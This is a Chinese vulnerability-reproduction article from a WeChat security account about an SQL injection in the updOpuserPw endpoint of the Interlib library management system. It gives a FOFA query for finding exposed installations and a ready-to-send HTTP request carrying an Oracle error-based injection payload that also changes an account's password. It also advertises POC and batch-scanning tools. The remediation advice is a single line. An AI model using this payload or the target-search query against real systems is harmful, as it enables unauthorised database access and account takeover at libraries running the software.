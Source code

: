 #  图创图书馆集群管理系统 updOpuserPw接口存在SQL注入漏洞   
南风徐来  南风漏洞复现文库   2024-05-06 22:56  
  
免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
## 1. 图创图书馆集群管理系统简介  
  
微信公众号搜索：南风漏洞复现文库 该文章 南风漏洞复现文库 公众号首发  
  
图书馆集群管理系统Interlib是新一代的图书馆自动化系统  
## 2.漏洞描述  
  
图书馆集群管理系统Interlib是新一代的图书馆自动化系统,采用开放的多层结构体系,基于Internet实现传统业务管理与海量数字资源管理的结合。图创图书馆集群管理系统 updOpuserPw接口存在SQL注入漏洞  
  
CVE编号:  
  
CNNVD编号:  
  
CNVD编号:  
## 3.影响版本  
  
图创图书馆集群管理系统  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YVuPeMiaoe2TBMZwMspNUDlWA8NlaSR4Ij6ELph8BE9antZrQLmiaibKudjmzvjeRRWCeUicQp8ictODQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
图创图书馆集群管理系统 updOpuserPw接口存在SQL注入漏洞  
## 4.fofa查询语句  
  
body="interlib"  
## 5.漏洞复现  
  
漏洞链接：http://xx.xxx.xxx.xx/interlib3/service/sysop/updOpuserPw?loginid=admin11&newpassword=Aa@123456&token=1%27and+ctxsys.drithsx.sn(1,(select%20123*321%20from%20dual))=%272  
  
漏洞数据包：  
```
GET /interlib3/service/sysop/updOpuserPw?loginid=admin11&newpassword=Aa@123456&token=1%27and+ctxsys.drithsx.sn(1,(select%20123*321%20from%20dual))=%272 HTTP/1.1
Host: xx.xx.xxx.xxx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Accept: */*
Connection: Keep-Alive
Accept-Charset: utf-8
Accept-Encoding: gzip, deflate
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YVuPeMiaoe2TBMZwMspNUDlNJ2FZS8mEia9OkQiaWZn4WKWTjMzQiaN6O1BCXuiacUQEVibPno5px4hfhg/640?wx_fmt=jpeg&from=appmsg "null")  
## 6.POC&EXP  
  
关注公众号 南风漏洞复现文库 并回复 漏洞复现131 即可获得该POC工具下载地址：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YVuPeMiaoe2TBMZwMspNUDlttXGNBGBoTyDsTk9o877qNHUO09iamHNZBXX63BAqRx8Qyiat2kWlBag/640?wx_fmt=jpeg&from=appmsg "null")  
  
本期漏洞及往期漏洞的批量扫描POC及POC工具箱已经上传知识星球：南风网络安全1: 更新poc批量扫描软件，承诺，一周更新8-14个插件吧，我会优先写使用量比较大程序漏洞。2: 免登录，免费fofa查询。3: 更新其他实用网络安全工具项目。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YVuPeMiaoe2TBMZwMspNUDlj01HiaMicZ2GwLwoXMt593h7zFKHNa58LHDzSONibkebp31xJka6zMZfw/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YVuPeMiaoe2TBMZwMspNUDlqib6QC8F3ZecJEjnVAdXfU0qScicHyXcW3xMiaTDF2GLRXzyvFaW9IReg/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YVuPeMiaoe2TBMZwMspNUDlYJYtWBzibmrnyrj8zIX5iamiaicibZroibal7XdJKzNY3iadsacPFibp64F30A/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YVuPeMiaoe2TBMZwMspNUDlWNUukv525HUEl2VlibFicqbaptr9jlQ3GkFNItnHlzsKlib6cswTFRppQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YVuPeMiaoe2TBMZwMspNUDle7z227KlYesibGXDdogkic4aVhmeLLOXIa4YXPznBPHJrPVFYx5zewPA/640?wx_fmt=jpeg&from=appmsg "null")  
## 7.整改意见  
  
联系厂商获取升级补丁修复漏洞  
## 8.往期回顾  
  
  
[用友crm客户关系管理pub/downloadfile.php接口存在任意文件读取漏洞](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247486384&idx=1&sn=6cded6c301c425146633b7c8e92b9ae2&chksm=974b86b7a03c0fa1f00ab48f05f1a7521aafbcf878188a0eee618c2e26d9614d282cd1ff7a58&scene=21#wechat_redirect)  
  
  
[用友政务财务系统FileDownload接口存在任意文件读取漏洞](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247486371&idx=1&sn=8ea4470a40d2100d18aecb3a4abcff6c&chksm=974b86a4a03c0fb2dad3b970bae511a25e02796d939379b41cee9a8372a421337989e1d432ef&scene=21#wechat_redirect)  
  
  
